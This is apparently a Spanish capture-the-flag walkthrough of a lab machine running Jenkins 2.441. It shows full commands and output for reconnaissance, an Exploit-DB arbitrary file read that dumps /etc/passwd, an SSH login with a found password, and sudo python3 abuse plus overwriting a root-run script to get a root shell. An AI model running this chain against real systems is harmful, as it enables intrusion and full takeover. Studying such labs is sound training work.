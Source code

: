 ```bash
nmap -p- -O -sC -sV 172.17.0.2
```

```bash
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)  
| ssh-hostkey:    
|   256 94:fb:28:59:7f:ae:02:c0:56:46:07:33:8c:ac:52:85 (ECDSA)  
|_  256 43:07:50:30:bb:28:b0:73:9b:7c:0c:4e:3f:c9:bf:02 (ED25519)  
8080/tcp open  http    Jetty 10.0.18  
|_http-title: Site doesn't have a title (text/html;charset=utf-8).  
|_http-server-header: Jetty(10.0.18)  
| http-robots.txt: 1 disallowed entry    
|_/
```

comprobamos ante que tipo de página web estamos
```bash
whatweb http://172.17.0.2:8080  
http://172.17.0.2:8080 [403 Forbidden] Cookies[JSESSIONID.f4851473], Country[RESERVED][ZZ], HTTPServer[Jetty(10.0.18)], HttpOnly[JSESSIONID.f485147  
3], IP[172.17.0.2], Jenkins[2.441], Jetty[10.0.18], Meta-Refresh-Redirect[/login?from=%2F], Script, UncommonHeaders[x-content-type-options,x-hudson  
,x-jenkins,x-jenkins-session]
```
es un Jenkins 2.441

buscamos posibles vulnerabilidades por version y éste permite realizar un `local file inclusion` 
```bash
searchsploit jenkins 2.441  
--------------------------------------------------------------------------------- 
Exploit Title                                              |  Path  
----------------------------------------------------------------------------------
Jenkins 2.441 - Local File Inclusion                       | java/webapps/51993.py 
----------------------------------------------------------------------------------
```

aunque ahi pone local file inclusion, es Arbitrary File Read (lectura de archivos arbitrarios).
podemos leer el contenido de los archivos del interior
```bash
cp /usr/share/exploitdb/exploits/java/webapps/51993.py exploit.py
```

**Salida**

```  
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin  
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin  
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin  
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin  
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash  
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin  
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin  
sys:x:3:3:sys:/dev:/usr/sbin/nologin  
sync:x:4:65534:sync:/bin:/bin/sync  
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin  
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin  
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin  
root:x:0:0:root:/root:/bin/bash  
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin  
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin  
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin  
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin  
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin  
bin:x:2:2:bin:/bin:/usr/sbin/nologin  
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin  
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin  
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin  
bobby:x:1001:1001::/home/bobby:/bin/bash  
games:x:5:60:games:/usr/games:/usr/sbin/nologin  
pinguinito:x:1002:1002::/home/pinguinito:/bin/bash
```
encontramos los usuarios bobby y pinguinito

con pinguinito no encontramos la contrdaseña, pero sí de bobby
```bash
[22][ssh] host: 172.17.0.2   login: bobby   password: chocolate
```

escalada de privilegios
```bash
sudo -l

(pinguinito) NOPASSWD: /usr/bin/python3
```


```bash
touch exploit.py
echo -e "import os\nos.system(\"bash -p\")" > exploit.py
```

Luego, ejecutamos este script con `sudo` como `root`.

```bash
sudo -u pinguinito /usr/bin/python3 exploit.py
```
```
whoami
# pinguinito
```

```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```
vemos el contenido del script que podemos ejecutar
```bash
$ cat /opt/script.py    
import shutil  
  
def copiar_archivo(origen, destino):  
   shutil.copy(origen, destino)  
   print(f'Archivo copiado de {origen} a {destino}')  
  
if __name__ == '__main__':  
   origen = '/opt/script.py'  
   destino = '/tmp/script_backup.py'  
   copiar_archivo(origen, destino)
```

```bash
echo "import os" > /opt/script.py
echo 'os.system("bash")' >> /opt/script.py
chmod 777 script.py
sudo /usr/bin/python3 /opt/script.py
```

```bash
whoami
# root
```
